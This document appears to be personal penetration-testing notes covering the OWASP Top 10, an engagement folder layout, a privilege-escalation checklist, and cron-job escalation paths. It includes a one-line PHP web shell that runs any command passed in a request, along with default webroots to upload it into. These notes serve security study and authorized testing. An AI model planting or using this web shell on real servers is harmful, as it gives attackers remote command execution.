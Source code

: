 z-   Network and infrastructure security
-   Application security
-   Security testing
-   Systems auditing
-   Business continuity planning
-   Digital forensics
-   Incident detection and response


# Risk managment process

![[Pasted image 20230322133208.png]]


# Folder structure

```c
Projects/
|__Acme Company
	|__EPT
	|	|__Evidence
	|	|	|__Credentials
	|	|	|__Data
	|	|	|__Secreenshots
	|	|__ logs
	|	|__ scas
	|	|__ scope
	|	|__ tools
	|__	IPT
		|__ Evidence
		|		|__Credentials
		|		|__Data
		|		|__Secreenshots
		|__ logs
		|__ scans
		|__ scope
		|__ tools
```

# TOP 10 OWASP (open source web applications security project)

- Most of our assesments would be arround #OWASP 10, not nessesarily but commenly.

 | NUMBER | CATEGORY                                    | DESCRIPTION                                                                                                                                                                                                                                                                                  |
 | ------ | ------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
 | 1.     | Broken access control                       | Resctrictions are not emplimented, users can access other users data, view sensitive data,...etc                                                                                                                                                                                             |
 | 2.     | Cryptographic failures                      | Cryptography related failure often leads to data leak, or system compromise                                                                                                                                                                                                                  |
 | 3.     | Injection                                   | User-supplies data is not validated & sanitised, leads to data exposure, system compromisation, examples of this are SQL injection, command injection, LDAP injection ... etc                                                                                                                |
 | 4.     | Insecure Design                             | These issues happen when the application is not designed with security in mind.                                                                                                                                                                                                              |
 | 5.     | Security Misconfiguration                   | Missing appropriate security hardening, leading to data exposure, insecure default configurations, open cloud sotrage ..., Verbose error handeling leading to the leak of sensetive information                                                                                              |
 | 6.     | Vulnerable and Outdated Components          | Using components (both client-side and server-side) that are vulnerable, unsupported, or out of date.                                                                                                                                                                                        |
 | 7.     | Identifications and authentications failure | Authentication-related attacks that target user's identity, authentication, and session management.                                                                                                                                                                                          |
 | 8.     | Software  and Data Integrity Failure        | Software and data integrity failures relate to code and infrastructure that does not protect against integrity violations. An example of this is where an application relies upon plugins, libraries, or modules from untrusted sources, repositories, and content delivery networks (CDNs). |
 | 9.     | Security Logging and Monitoring Failures    | This category is to help detect, escalate, and respond to active breaches. Without logging and monitoring, breaches cannot be detected..                                                                                                                                                     |
 | 10.    | Server-Side request Forgery                 | SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).                                                                                                                                                                                                                                                                                            |


# Uploading Web shell

Default webroots to upload web shell into

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| ISS        | c:\\intepub\\wwwroot\\ |
| XAMPP      | C:\\xampp\\htdocs\\    |

Php request shell, accepts, post & get
```php
<?php system($_REQUEST["cmd"]); ?>
```


# Priv-esc Small cheklist
1. Kernel
2. Vulnerable software
	-  dpkg -l , C:\\Program Files
1. credentials
2. database
3. set uids, guids
4. Windows Token  Privileges
5. Scheduled Tasks
6. Exposed credentials
	- LOG files, configuration files
7. Passwords re-use
8. SSH keys
9. Internal services

# #Bins

| SYSTEM  | SOURCE                             |
| ------- | ---------------------------------- |
| Windows | https://lolbas-project.github.io/# |
| linux   | https://gtfobins.github.io/        |


- Con jobs
 if we have the write permission to those directories
 /etc/crontab
 /etc/cron.d
 /var/spool/cron/crontab/root